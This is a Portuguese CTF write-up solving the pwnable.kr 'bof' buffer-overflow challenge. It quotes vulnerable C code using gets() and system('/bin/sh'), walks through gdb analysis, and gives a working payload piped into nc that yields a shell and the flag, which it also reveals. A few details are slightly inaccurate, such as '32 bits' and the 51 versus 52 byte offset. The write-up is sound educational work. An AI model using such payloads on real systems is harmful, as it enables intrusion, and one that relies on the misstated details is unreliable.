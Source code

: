 # Duckware Team - bof (pwnable)
###### Solved by @Antonio-alexandre

> This CTF is about pwn, buffer overflow

## Desafio: bof (Pwn, Buffer Overflow)
#### Introdução

Neste desafio, precisaremos analisar e identificar vulnerabilidades em um código a fim de aplicar uma técnica chamada de `Buffer Overflow`, para assim conseguirmos identificar a

- [Página do desafio](http://pwnable.kr/play.php)

#### Análise Inicial

A princípio, nos deparamos com a seguinte descrição: 

> Vovó me disse que o buffer overflow é uma das vulnerabilidades de software mais comuns.
Isso é verdade?

Além dos seguintes links para download dos arquivos:

- [Link 1](http://pwnable.kr/bin/bof)
- [Link 2](http://pwnable.kr/bin/bof.c)

Além do seguinte códig para conectar ao servidor:

`nc pwnable.kr 9000` 

#### Solução

A princípio, nos deparamos com dois arquivos. Um código em C chamado `bof.c` e um executável apenas com o nome de `bof`. Juntamente com um código a ser inserido para conectar ao servidor. 

Ao tentarmos conectar ao servidor, nos deparamos com a seguinte mensagem:

[![Imagem6.png](https://i.postimg.cc/fL1hGjGL/Imagem6.png)](https://postimg.cc/jw69NNd0)

Como não temos como prosseguir, iremos ao código.

O código que nos foi concebido, é o seguinte:

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

O objetivo desse desafio, é que o valor da variável `key` seja alterado para `0xcafebabe`. Isso permitirá que o sistema execute `/bin/sh`, permitindo assim o nosso acesso a um [shell](https://guialinux.com.br/o-que-e-um-shell/).

Ao analisar todo o código, chegamos a algumas conclusões:

- O código possui um buffer de 32 bits.
- A função gets() permite a entrada de uma informação do usuário, sem que haja verificação de tamanho.
- Assim que o valor da variável `key` é alterado para o desejado, ele executará um shell.

Porém, o código não nos permite digitar diretamente. Precisaremos então utilizar uma ferramenta externa, chamada de `gdb`.

Executaremos então o comando `gdb bof`, para executar o `gdb`.

[![Imagem7.png](https://i.postimg.cc/QCcvRLg4/Imagem7.png)](https://postimg.cc/xNTsz44M)

Dentro do terminal do gdb, iremos descompilar a `main`. Ao executar o comando, ele nos retorna a seguinte tabela:

[![Imagem8.png](https://i.postimg.cc/BvtkJPc1/Imagem8.png)](https://postimg.cc/67JY03P9)

Já ao descompilar a função `func`, nos deparamos com a seguinte tabela:

[![Imagem9.png](https://i.postimg.cc/4NZ0mSQG/Imagem9.png)](https://postimg.cc/V5Ggh4hZ)

Como podemos notar ao analisar, percebemos que a função `$0xdeadbeef` está sendo movida para o registrador %eax:

`0x00000693 <+9>:    movl   $0xdeadbeef,(%esp)`

Já a seguinte linha, mostra a comparação de `0xcafebabe` que precisamos.

`0x00000654 <+40>:    cmpl   $0xcafebabe,0x8(%ebp)`

Basta então, executar o código com um [breakpoint](https://programae.org.br/cursoprogramacao/glossario/o-que-e-breakpoint-em-programacao/) em `gets`:

[![Imagem10.png](https://i.postimg.cc/YSmRX6z8/Imagem10.png)](https://postimg.cc/jWty2J9J)

Podemos então printar o conteúdo de `$ebp+8` (da linha `cafebabe`)

[![Imagem11.png](https://i.postimg.cc/3N3ZJP5b/Imagem11.png)](https://postimg.cc/1nYFv7zp)

O endereço de key no meu caso é `0xffffcf50`. Nesse caso, basta encontrar onde o buffer começa, para saber a distância entre eles.

Se sobrescrevermos essa quantidade de bytes no buffer, terminando com `cafebabe` o valor de `deadbeef` será alterado e a flag revelada.

Como nós possuímos a informação de que `deadbeef` foi copiada para `eax`, podemos identificar uma [lea](https://iq.opengenus.org/x86-lea/) na seguinte linha:

`0x00000649 <+29>:    lea    -0x2c(%ebp),%eax`

Nesse caso então, precisamos checar `$ebp-0x2c`. Para isso, utilizaremos o seguinte comando:
```
(gdb) x/1s $ebp-0x2c
0xffffcf1c:     "booooooof"
```

Então, basta identificar a distância entre eles:

[![Imagem12.png](https://i.postimg.cc/W3vGXQ3b/Imagem12.png)](https://postimg.cc/2q0L59hP)

Percebemos então que há uma distância de 51 bytes. Feito isso, basta executar o seguinte comando no terminal:

```
(python -c "print '\x01'*52+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
cat flag
```

Assim então, temos acesso a `flag`:

>`daddy, I just pwned a buFFer :)`
 
